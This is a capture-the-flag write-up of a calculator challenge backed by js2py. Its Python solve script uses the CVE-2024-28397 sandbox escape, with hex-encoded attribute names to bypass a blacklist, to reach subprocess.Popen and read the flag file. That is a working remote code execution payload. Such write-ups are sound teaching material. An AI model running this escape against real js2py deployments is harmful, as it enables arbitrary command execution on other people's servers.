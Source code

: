 ```yaml
---
created: 2024-07-27T06:35
updated: 2024-07-27T20:53
tags:
  - jail
  - js2py
---
```


> This is my first calculator ever, and it might have a 0day!!!

## Analysis

### eval

```bash
curl "https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result" ^
  --data-raw '{"inputs":"9 + 9"}'
# {"result":"18","status":"success"}
```

Obviously the server is running some sort of `eval`.

After a few probes, I realized that the server is running python, and executing our code as JS. (weird)

```js
()=>{}
"SyntaxError: Line 1: ArrowFunction is not supported by ECMA 5.1"
```

### `js2py`

A bit of researching later I realized that the server is using `js2py`.

After which I found a CVE for `js2py`, and the [poc script](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py).

I used hex encoded code ran inside of `eval()` block to avoid blacklist.

It worked, but turns out that was unintended when the author DM-ed me, he did not saw `eval` coming.

So I modified the solve script a little to work even after he patched eval.

Just use hex encoded indexers, lol.

Credits to [Marven11/CVE-2024-28397-js2py-Sandbox-Escape: CVE-2024-28397: js2py sandbox escape, bypass pyimport restriction. (github.com)](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

## Solve Script

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


# https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py
payload = """
let cmd = "cat ../flag.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()) {
        let item = o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()[i]
        if(item.__module__ == "\\x73\\x75\\x62\\x70\\x72\\x6F\\x63\\x65\\x73\\x73" && item.__name__ == "\\x50\\x6F\\x70\\x65\\x6E") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
n11
"""
r = requests.post("https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result", json={"inputs": payload})
print(r.text)
```

```flag
DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}
```
